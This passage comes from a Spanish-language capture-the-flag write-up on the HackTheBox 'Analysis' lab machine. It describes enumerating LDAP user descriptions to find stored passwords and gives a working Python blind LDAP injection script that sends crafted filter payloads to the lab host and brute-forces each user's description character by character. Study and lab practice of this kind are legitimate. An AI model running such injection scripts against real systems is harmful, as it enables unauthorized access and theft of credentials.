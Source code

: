 ### Enumerating user description through LDAP Injection + Information Leakage

Crearemos un nuevo script de Python, modificando el que ya tenemos para intentar enumerar otro atributo de LDAP como es el campo de "Description" para ver si algún usuario dispone de algúna informacion/contraseña en su usuario.

En este primer script, probaremos de ver si algunos de los usuarios que disponemos, tiene descripción. Cuando tengamos algún usuario que tenga descripción, enumeraremos a través de fuerza bruta el contenido de la descripción del usuario en LDAP.

```python
#!/usr/bin/env python3

import requests
import re
import signal
import pdb
import time
import sys

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = 'http://internal.analysis.htb/users/list.php?name='
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits 

def ldapInjection():

    p1 = log.progress("LDAP Injection")
    p1.status("Starting LDAP Injection")

    users = ['jdoe','ajohnson','cwilliams','wsmith','jangel','technician','amanson','badam','lzen']

    p2 = log.progress("Username")
    p3 = log.progress("Description")

    for user in  users:

        p2.status(f"Enumerating {user} description")

        for character in characters:
            p1.status(main_url + f"{user})(description={character}*")
            r = requests.get(main_url + f"{user})(description={character}*")
            username = re.findall(r'<strong>(.*?)</strong>', r.text)[0]

            if user in username:
                p3.status(character)
                time.sleep(10)
                break

if __name__ == '__main__':
    ldapInjection()
```
